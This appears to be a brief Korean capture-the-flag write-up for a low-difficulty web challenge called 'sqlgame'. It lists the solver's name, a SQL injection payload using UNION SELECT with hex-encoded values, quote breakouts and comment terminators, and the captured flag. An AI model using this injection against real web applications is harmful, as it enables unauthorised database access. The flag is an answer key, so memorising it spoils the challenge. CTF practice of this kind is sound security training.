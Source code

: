 이름 : 문시우


문제명 : sqlgame


난이도 : 하


분야 : 웹


payload : ?vuln=1%20union%20select%200x303037,1,1%23%27%20union%20select%201,0x62616e67,schema()%23"%20union%20select%201,2,%27007%27%23


flag : flag{good_good_very_good}
